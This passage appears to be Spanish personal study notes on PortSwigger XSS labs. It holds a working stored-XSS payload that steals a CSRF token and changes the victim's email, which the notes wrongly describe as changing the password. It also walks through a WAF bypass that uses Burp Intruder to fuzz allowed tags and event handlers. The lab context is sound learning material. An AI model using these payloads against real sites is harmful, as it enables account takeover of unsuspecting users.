 ```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

creamos un comentario con el siguiente contenido y lograremos cambiar la contraseña.

### (contexts) Reflected XSS into HTML context with most tags and attributes blocked

una pagina tiene una vulnerabilidad XSS reflejada en la funcionalidad de búsqueda, pero utiliza un firewall de aplicaciones web (WAF) para proteger contra los vectores XSS comunes.

el valor de busqueda se incrusta en el HTML:

![[Pasted image 20230225193321.png]]

un payload clasico como este deberia funcionar:

```html
<script>alert(1)</script>
```

pero parece que un WAF bloquea etiquetas comunes:

![[Pasted image 20230225193644.png]]

vamos a usar **intruder** para determinar cuales etiquetas estan permitidas, del siguiente enlace podemos copiar todas las etiquetas:

- [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

![[Pasted image 20230225193759.png]]

ahora configuramos el intruder:

![[Pasted image 20230225193855.png]]

si filtramos en los resultados por codigo de estado vemos que la etiqueta body esta permitida:

![[Pasted image 20230225194005.png]]

podemos hacer lo mismo para descubrir si algun evento esta disponible:

```html
<body (intruder_payload)=1>
```
